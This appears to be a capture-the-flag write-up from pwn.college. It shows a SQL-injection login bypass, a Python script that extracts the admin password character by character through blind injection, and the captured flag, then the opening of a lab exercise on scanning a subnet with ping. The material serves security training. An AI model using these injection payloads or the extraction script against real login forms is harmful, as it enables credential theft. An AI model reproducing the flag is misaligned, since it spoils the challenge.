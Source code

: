             if not user:
                flask.abort(403, "Invalid username or password")

            flask.session["user"] = username
            return flask.redirect(flask.request.path)
        ...


    27.0.0.1 - - [24/Jun/2025 06:46:48] "GET / HTTP/1.1" 200 -
    DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '' UNION SELECT 1, username, password FROM users WHERE username='admin' --'"
        (QUERY: ' UNION SELECT 1, username, password FROM users WHERE username='admin' --)
    127.0.0.1 - - [24/Jun/2025 06:47:17] "POST / HTTP/1.1" 302 -

    - wrote a python script to automate password testing
    - PYTHON:
        import requests
        URL = "http://challenge.localhost:80"
        flag = ""

        chars = "aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ0123456789_-.,{} "
        for i in range(1, 63):
                for c in chars:
                        payload = f" ' OR SUBSTR((SELECT password FROM users WHERE username='admin'),{i},1) = '{c}' --"

                        resp = requests.post(URL, data={"username":"admin","password":payload}, allow_redirects=False)
                        if resp.status_code==302:
                                flag+=c
                                print(f"[+] Found char {i}: {c}")
                                break
        print(f"Flag: {flag}")


    ...
    Flag: pwn.college{ILd0xw5E3A5RAULUy7j5-NPJR8h.QXzkzMzwiNxQjMyEzW}


# Intercepting Communication

5. Scan 1
    From your host at 10.0.0.1, connect to some unknown remote host on the 10.0.0.0/24 subnet, on port 31337.

    Fortunately, there are only 256 possible hosts on this subnet, so you can just try them all!

    One simple tool that you can use to help you with this is ping. If you "ping" a host, and it is up, you will get a response; otherwise, ping will timeout and warn you that it cannot reach the host.

    For example, try pinging yourself:

    ping 10.0.0.1
    This will continuously keep pinging until you press Ctrl-C to stop it.

    You can also try pinging a host that you know is down:

    timeout 10 ping 10.0.0.2
    This will run ping for (up to) 10 seconds, but you should see ping messages indicating that the host is unreachable before the timeout.
